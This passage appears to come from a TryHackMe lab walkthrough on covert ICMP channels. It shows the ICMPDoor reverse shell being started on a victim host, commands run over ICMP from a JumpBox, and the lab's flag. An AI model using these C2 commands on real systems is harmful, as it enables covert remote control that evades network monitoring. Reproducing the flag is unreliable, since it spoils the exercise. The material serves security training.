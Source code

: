Nice! We have successfully transferred data over the ICMP protocol using the Metasploit Framework. You can check the loot file mentioned in the terminal to confirm the received data.

### ICMP C2 Communication

Next, we will show executing commands over the ICMP protocol using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool. ICMPDoor is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

![C2 Communication over ICMP](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/c4c0b7beeaa41fd5b4a4f4cbe1ded82e.png)

We have prepared the tools needed for C2 communication over the ICMP protocol on **JumpBox** and the **ICMP-Host** machines. First, we need to log in to the ICMP machine,icmp.thm.com, and execute the icmpdoor binary as follows,

Run the icmpdoor command on the ICMP-Host Machine

```markup
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
```

Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute the icmp-cnc binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine.&#x20;

The data that needs to be transferred

```markup
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host
```

Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP. As the previous terminal shows, we requested to execute the hostname command, and we received icmp-host.

To confirm that all communications go through the ICMP protocol, we capture the network traffic during the communication using tcpdump as the following:

![Capture ICMP traffic using tcpdump](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b7df6f586e47769bf2addbee68d69cdc.png)

Once we follow the steps, we get our flag:

```
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: getFlag
shell: [+] Check the flag: /tmp/flag.txt
shell: cat /tmp/flag.txt
shell: THM{g0t-1cmp-p4k3t!}
```
